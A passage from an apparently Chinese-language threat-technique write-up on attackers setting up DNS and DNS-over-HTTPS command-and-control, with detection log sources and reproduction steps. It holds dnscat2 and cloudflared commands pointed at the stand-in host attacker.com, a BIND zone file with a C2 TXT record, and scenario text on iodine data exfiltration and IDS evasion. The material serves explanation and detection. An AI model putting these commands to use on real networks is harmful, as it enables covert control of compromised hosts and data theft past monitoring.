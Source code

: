     ```bash
    # 服务端
    dnscat2 --dns server=0.0.0.0,port=53
    # 客户端
    dnscat2 --dns server=attacker.com,port=53
    ```

### 3. **DNS over HTTPS (DoH)**
- 使用DoH隐藏DNS流量，增加隐蔽性。
  - 参考：<https://xz.aliyun.com/t/3068>，使用DoH构建弹性C2基础设施。
  - 工具：Cloudflared、AdGuard。
    ```bash
    # 使用Cloudflared配置DoH服务器
    cloudflared --url https://attacker.com/dns-query
    ```

### 4. **案例场景**
- 攻击者租用云服务器，部署BIND作为权威DNS服务器，配置TXT记录用于C2通信。
- 使用iodine在目标网络中建立DNS隧道，泄露敏感数据。
- 伪装DoH流量为正常HTTPS请求，绕过IDS检测，参考：<https://xz.aliyun.com/t/3068>。

## 检测日志
DNS服务相关活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **DNS日志**：
  - 记录异常的DNS查询，如高频TXT记录查询或可疑域名解析。
- **网络流量日志**：
  - 检测异常的DNS流量模式，如大流量DNS请求或非标准端口的DNS通信。
- **防火墙/IDS日志**：
  - 记录异常的DNS服务器IP或可疑C2流量。
- **Web服务器日志**：
  - 检测与钓鱼域名相关的HTTP请求，可能由攻击者的DNS服务器解析。

## 测试复现
以下是模拟攻击者获取DNS服务的步骤：
1. **环境准备**：
   - 租用云服务器（如AWS EC2），安装BIND或PowerDNS。
   - 注册域名（如`attacker.com`），配置NS记录指向自建DNS服务器。
2. **DNS服务器配置**：
   - 部署BIND并配置C2记录：
     ```bash
     # 安装BIND
     sudo apt install bind9
     # 配置区域文件
     echo '$TTL 3600
     @ IN SOA ns1.attacker.com. admin.attacker.com. (
         2025060401 ; Serial
         3600       ; Refresh
         1800       ; Retry
         604800     ; Expire
         3600 )     ; Minimum
     @ IN NS ns1.attacker.com.
     ns1 IN A 192.168.1.100
     c2 IN TXT "command:execute_payload"' > /var/named/attacker.com.zone
     ```